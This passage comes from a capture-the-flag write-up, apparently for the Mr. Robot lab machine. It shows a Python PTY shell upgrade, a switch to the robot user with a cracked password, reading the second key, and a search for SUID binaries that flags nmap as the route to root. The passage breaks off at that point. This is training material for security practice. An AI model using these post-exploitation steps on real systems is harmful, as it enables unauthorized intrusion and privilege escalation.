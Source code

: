 ```

```
I think even crackstation could find it!

`robot:[REDACTED]`

Now switch to robot and get that 2nd key

```
$ su robot
su: must be run from a terminal
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
cat key-2-of-3.txt
...
```

## <u>privilege escalation</u>

First step failed

```
robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: [REDACTED]

Sorry, user robot may not run sudo on linux

```
Second step great success

```
find / -perm -u=s -type f 2>/dev/null
 
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown

```
GTFObins say nmap is suspicious and therefore...
